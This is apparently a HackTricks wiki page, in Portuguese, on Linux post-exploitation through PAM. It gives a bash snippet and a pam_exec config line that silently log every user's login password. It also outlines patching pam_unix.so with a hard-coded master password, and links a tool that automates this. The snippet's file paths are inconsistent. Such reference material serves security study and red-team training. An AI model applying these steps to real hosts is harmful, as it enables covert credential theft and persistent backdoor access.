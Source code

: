 # Linux Post-Exploitation

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Capturando Senhas de Login com PAM

Vamos configurar um módulo PAM para registrar cada senha que cada usuário usa para fazer login. Se você não sabe o que é PAM, confira:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Para mais detalhes, confira o [post original](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Este é apenas um resumo:

**Visão Geral da Técnica:**
Módulos de Autenticação Pluggable (PAM) oferecem flexibilidade na gestão de autenticação em sistemas baseados em Unix. Eles podem aumentar a segurança personalizando processos de login, mas também apresentam riscos se mal utilizados. Este resumo descreve uma técnica para capturar credenciais de login usando PAM, juntamente com estratégias de mitigação.

**Capturando Credenciais:**
- Um script bash chamado `toomanysecrets.sh` é criado para registrar tentativas de login, capturando a data, nome de usuário (`$PAM_USER`), senha (via stdin) e IP do host remoto (`$PAM_RHOST`) em `/var/log/toomanysecrets.log`.
- O script é tornado executável e integrado à configuração do PAM (`common-auth`) usando o módulo `pam_exec.so` com opções para rodar silenciosamente e expor o token de autenticação ao script.
- A abordagem demonstra como um host Linux comprometido pode ser explorado para registrar credenciais discretamente.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**Para mais detalhes, consulte o [post original](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Este é apenas um resumo:

O Módulo de Autenticação Pluggable (PAM) é um sistema usado no Linux para autenticação de usuários. Ele opera em três conceitos principais: **nome de usuário**, **senha** e **serviço**. Os arquivos de configuração para cada serviço estão localizados no diretório `/etc/pam.d/`, onde bibliotecas compartilhadas gerenciam a autenticação.

**Objetivo**: Modificar o PAM para permitir a autenticação com uma senha específica, contornando a senha real do usuário. Isso é particularmente focado na biblioteca compartilhada `pam_unix.so` usada pelo arquivo `common-auth`, que é incluído por quase todos os serviços para verificação de senha.

### Passos para Modificar `pam_unix.so`:

1. **Localizar a Diretiva de Autenticação** no arquivo `common-auth`:
- A linha responsável por verificar a senha de um usuário chama `pam_unix.so`.
2. **Modificar o Código Fonte**:
- Adicione uma instrução condicional no arquivo de código fonte `pam_unix_auth.c` que concede acesso se uma senha predefinida for usada; caso contrário, prossegue com o processo de autenticação usual.
3. **Recompilar e Substituir** a biblioteca `pam_unix.so` modificada no diretório apropriado.
4. **Teste**:
- O acesso é concedido em vários serviços (login, ssh, sudo, su, protetor de tela) com a senha predefinida, enquanto os processos normais de autenticação permanecem inalterados.

{% hint style="info" %}
Você pode automatizar esse processo com [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

